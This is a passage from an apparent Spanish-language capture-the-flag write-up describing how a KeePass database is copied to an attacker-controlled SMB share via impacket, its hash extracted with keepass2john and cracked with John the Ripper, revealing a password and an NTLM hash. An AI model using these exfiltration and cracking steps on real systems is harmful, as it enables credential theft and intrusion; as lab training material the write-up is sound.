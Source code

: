 ##### KeePass

Se extrajo la base de datos de KeePass haciendo uso de la utilería de [impacket](https://github.com/SecureAuthCorp/impacket), mediante:

```bash
impacket-smbserver smbFolder $(pwd) -smb2support` y realizando el copiado con `cp .\CEH.kdbx \\10.10.14.16\smbFolder
```

Posteriormente, para crackear el archivo fue necesario primero extraer el hash del mismo, usando `keepass2john CEH.kdbx > ceh.hash` para a continuación iniciar el proceso de cracking haciendo uso de:

```bash
john ceh.hash --wordlist=/usr/share/wordlists/rockyou.txt
```

Obteniendo así la contraseña del archivo (`moonshine1`).

![Cracking de archivo de KeePass](images/post_4.png)

La base de datos expone múltiples entradas con contraseñas disponibles aunque una en particular se realzó por sobre todas debido al formato de la entrada. Identificandola como un hash NTLM `aad3b435b51404eeaad3b435b51404ee:e0fb1fb85756c24235ff238cbe81fe00`.

![Contenido de entrada sobresaliente](images/post_5.png)
